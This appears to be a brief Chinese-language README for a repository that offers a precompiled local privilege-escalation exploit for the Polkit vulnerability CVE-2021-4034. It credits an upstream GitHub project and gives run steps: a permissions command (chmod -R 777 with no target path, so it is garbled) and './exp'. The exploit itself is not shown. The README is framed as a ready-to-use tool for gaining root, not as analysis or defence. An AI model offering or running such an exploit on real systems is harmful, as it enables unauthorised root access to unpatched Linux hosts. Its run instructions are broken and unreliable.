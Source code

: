 # Polkit-
Polkit提权包 CVE-2021-4034 （供需要的人方便使用

源项目（需编译）：https://github.com/berdav/CVE-2021-4034

此为已编译后项目，全部导入

```python
chmod -R 777 2>/dev/null
```

```python
./exp
```
